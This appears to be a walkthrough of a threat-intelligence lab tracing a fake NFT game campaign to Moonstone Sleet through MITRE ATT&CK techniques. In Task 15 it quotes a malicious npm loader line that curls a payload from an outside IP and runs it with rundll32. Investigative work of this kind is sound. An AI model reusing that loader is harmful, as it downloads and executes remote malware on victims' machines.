



TeamWork

Task 1
After unzipping the archive, I was left with a bunch of emails.
This email mentioning NFTs immediately stood out to me, so I began my analysis by checking it first.
The sender has provided Jason with a link to a zipped archive, alongside a password. I will try the sender's email theodore.todtenhaupt@developingdreams.site as my answer to task 1.
Task 2
Trying whois against the domain gave no results, so I pivoted to online searching.
I tried VirusTotal, Alienvault, and a few more sites, but what gave me the needed information was https://www.whois.com/whois/
I'll use the registration date as my answer to task 2.
Task 3
I went to the resource development category of the MITRE ATT&CK database and searched for something that matches the attacker's actions.
https://attack.mitre.org/tactics/TA0042/
The technique T1583.001 fits this scenario. Its description states:
Adversaries may acquire domains that can be used during targeting.
Domain names are the human readable names used to represent one or more IP addresses.
They can be purchased or, in some cases, acquired for free.
The attacker did own a domain, from which a suspicious-looking archive was distributed.
I'll use this technique ID as my answer to task 3.
Task 4
I wanted to explore the domain, but it seems like it got taken down/removed from the internet.
However, that does not mean it cannot be accessed. There is a chance that it has been archived.
I'll go to the web archive, and I'll search for the site.
https://web.archive.org/
It has been saved once on February 4, 2025. I'll check out the snapshot.
I can see the site as it was on the day of the snapshot. Scrolling down, I can see a few social media links.
And while none of these were archived, I could take the Twitter (x) link and use it as my answer for task 4.
https://x.com/Develop_Dreams
Task 5
I went back to the MITRE website and searched for entries related to social media profiles.
Initially, I focused on the ID T1586 technique Compromise Accounts, because I thought that the attacker may have compromised existing accounts tied to the company.
I was most likely wrong. It may have been that the attacker recreated the company account after its deletion and used it for their attack.
With that in mind, I searched through the MITRE website again and found T1585: Establish Accounts, which would fit the narrative well. The subtechnique os .001 would be exactly what the attacker did.
Task 6
Back on the archived site, there were 2 games to download.
Remembering what was said in the email, I'll take the P2E, NFT beta game.
Before doing anything with it, I'll take its name as my answer to task 6.
Task 7
The archive required a password. It was sent through the mail as well, and it was DTWBETA2025
It contains a single executable file. I'll get its SHA256 hash by running sha256sum
56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c
I'll use this hash as my answer to task 7.
Task 8
On the MITRE website, I searched for techniques related to file uploads and file hosting. I quickly found a matching one.
T1608: Stage Capabilities
Adversaries may upload, install, or otherwise set up capabilities that can be used during targeting.
To support their operations, an adversary may need to take capabilities they developed (Develop Capabilities) or obtained (Obtain Capabilities) and stage them on infrastructure under their control.
These capabilities may be staged on infrastructure that was previously purchased/rented by the adversary (Acquire Infrastructure) or was otherwise compromised by them (Compromise Infrastructure).
Capabilities may also be staged on web services, such as GitHub or Pastebin, or on Platform-as-a-Service (PaaS) offerings that enable users to easily provision applications.
And the .001 subtechnique.
# Upload malware
Adversaries may upload malware to third-party or adversary controlled infrastructure to make it accessible during targeting.
Malicious software can include payloads, droppers, post-compromise tools, backdoors, and a variety of other malicious content.
Adversaries may upload malware to support their operations, such as making a payload available to a victim network to enable Ingress Tool Transfer by placing it on an Internet accessible web server.
Task 9
I took the hash from task 7 and checked it with Virustotal.
It's detected as malware, and there are 2 comments.

The comment made by patricksvgrapi reveals the threat actor and links to an interesting Microsoft article.
I'll use the TA's name as my answer to task 9.

Task 10
https://www.microsoft.com/en-us/security/blog/2024/05/28/moonstone-sleet-emerges-as-new-north-korean-threat-actor-with-new-bag-of-tricks/

This article reveals that Moonstone Sleet is a North Korean threat actor. The behavior listed in the report closely matches what I've seen so far in this scenario, ranging from a fake blockchain company/website to the usage of a malicious tank game DeTankWar
This also means that I was completely wrong in task 5. The website was not reused after deletion nor overtaken, it was a fake from the beginning, its sole purpose being to distribute malware and appear legitimate.
Task 11
Reading more into the Microsoft article, it is mentioned that Moonstone Sleet used a trojanized version of PuTTY (a free and open-source terminal emulator) as an initiator of a multi-stage infection.
I'll use PuTTY as my answer to task 11.
Task 12
On the MITRE ATT&CK website, I searched for Moonstone Sleet
https://attack.mitre.org/groups/G1036/
One of the techniques used by this group was T1195.002: Supply Chain Compromise: Compromise Software Supply Chain with a note of:
Moonstone Sleet has distributed a trojanized version of PuTTY software for initial access to victims
This, of course, matches with the trojanized PuTTY software from the earlier question and the report, so I'll use this technique ID as my answer to task 12.
Task 13
I searched Moonstone sleet july 2024 on google, and found an interesting article.
https://securitylabs.datadoghq.com/articles/stressed-pungsan-dprk-aligned-threat-actor-leverages-npm-for-initial-access/
Npm is the package manager for Node.js, containing hundreds of thousands of packages used by developers all around the world.
I'll use npm as my answer to task 13.
Task 14
Looking at the article, the two malicious packages were harthat-hash and harthat-api
Both of them were already taken down from npm, and none of them were archived via the Wayback Machine.
The article contains everything I need, though. I'll use harthat-hash v1.3.3 as my answer to task 14.
Task 15
Scrolling down through the article, there is a detection tied to a suspicious URL.
const data = '@echo off\ncurl -o Temp.b -L "http://142.111.77.196/user/user.asp?id=237596" > nul 2>&1\nrename Temp.b package.db > nul 2>&1\nrundll32 package.db,GenerateKey 1234\ndel "package.db"\nif exist "pk.json" (\ndel "package.json" > n... 2>&1\n)';
A file curled from the suspicious IP Temp.b is renamed to package.db. The package.db file is then executed via rundll32, which suggests that the file is actually a .dll.
It then executes a GenerateKey function with an argument of 1234. Lastly, it cleans up every trace left behind.
Task 16
For the last task, I went back to the MITRE ATT&CK website. I looked around, and after a while, I found a matching technique.
T1218: System Binary Proxy Execution
Adversaries may bypass process and/or signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries.
Binaries used in this technique are often Microsoft-signed files, indicating that they have been either downloaded from Microsoft or are already native in the operating system.
Binaries signed with trusted digital certificates can typically execute on Windows systems protected by digital signature validation.
Several Microsoft signed binaries that are default on Windows installations can be used to proxy execution of other files or commands.
The .011 subtechnique corresponds to rundll32.
Adversaries may abuse rundll32.exe to proxy execution of malicious code.
Using rundll32.exe, vice executing directly (i.e. Shared Modules), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations.
Rundll32.exe is commonly associated with executing DLL payloads (ex: rundll32.exe {DLLname, DLLfunction}).
I'll use T1218.011 as my answer to task 16.
Solved!